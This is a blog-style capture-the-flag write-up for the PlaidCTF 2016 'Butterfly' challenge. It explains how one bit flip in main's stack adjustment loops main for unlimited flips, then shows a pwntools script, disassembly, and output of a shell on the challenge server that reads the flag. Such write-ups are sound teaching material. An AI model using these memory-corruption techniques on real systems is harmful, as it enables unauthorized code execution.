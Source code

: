 ```yaml
---
layout: post
title: Plaidctf 2016 Butterfly
comments: true
category: ctf
tags: ctf, plaidctf, reversing, pwnable
---
```


This is a write-up of the challenge Butterfly from the Plaid ctf 2016.

# The challenge

Butterfly is a 64bit x86 linux pwnable, which simply lets you flip a single bit by shining a cosmic ray at it.

It works by `mprotect`'ing the page with read-write-execute before flipping the bit and then calling mprotect again to remove write rigths.

# The exploit

As we can flip arbitary bits in both the code and data, it knew that we should either flip the bit the code of `main` or in some got entry,
to get control of `rip`.

At the end of `main` we found:

```text
  400860:   48 83 c4 48             add    rsp,0x48
  400864:   5b                      pop    rbx
  400865:   41 5e                   pop    r14
  400867:   41 5f                   pop    r15
  400869:   5d                      pop    rbp
  40086a:   c3                      ret
```
and thus flipping the 6'th bit at 400863 would change the `add rsp,0x48` to `add rsp, 0x8`,
and so `main` would return to an address of our choosing.

So by letting `main` to return to `main` we was able to get unlimited bit flips.

```python
from pwn import *
context(arch="amd64")

e = ELF("./butterfly_33e86bcc2f0a21d57970dc6907867bed")
#r = remote("butterfly.pwning.xxx", 9999)
r = process("./butterfly_33e86bcc2f0a21d57970dc6907867bed")

addr = 0x400860+3
num = (addr << 3) + 6
r.sendline(str(num).ljust(40)+p64(e.symbols["main"]))
```

which when run gives us:

```sh
$ python doit_butterfly.py
[*] '/home/user/butterfly_33e86bcc2f0a21d57970dc6907867bed'
    Arch:          amd64-64-little
    RELRO:         No RELRO
    Stack Canary:  Canary found
    NX:            NX enabled
    PIE:           No PIE
[x] Starting program './butterfly_33e86bcc2f0a21d57970dc6907867bed'
[+] Starting program './butterfly_33e86bcc2f0a21d57970dc6907867bed': Done
[*] Switching to interactive mode
THOU ART GOD, WHITHER CASTEST THY COSMIC RAY?
WAS IT WORTH IT???
THOU ART GOD, WHITHER CASTEST THY COSMIC RAY?
```

note that "THOU ART GOD, WHITHER CASTEST THY COSMIC RAY?" is written twice, this is because we are re-executing `main`.

So from here it was easy to write some shellcode in the `.bss` and just return to it...

# Final exploit

{% gist 9ae520bc2bfeca537bd119760f149f0b %}
```sh
[*] '/home/user/butterfly_33e86bcc2f0a21d57970dc6907867bed'
    Arch:          amd64-64-little
    RELRO:         No RELRO
    Stack Canary:  Canary found
    NX:            NX enabled
    PIE:           No PIE
[x] Opening connection to butterfly.pwning.xxx on port 9999
[x] Opening connection to butterfly.pwning.xxx on port 9999: Trying 13.92.239.242
[+] Opening connection to butterfly.pwning.xxx on port 9999: Done
[*] Switching to interactive mode
WAS IT WORTH IT???
THOU ART GOD, WHITHER CASTEST THY COSMIC RAY?
WAS IT WORTH IT???
id
uid=1001(problem) gid=1001(problem) groups=1001(problem)
cat flag
PCTF{b1t_fl1ps_4r3_0P_r1t3}
```


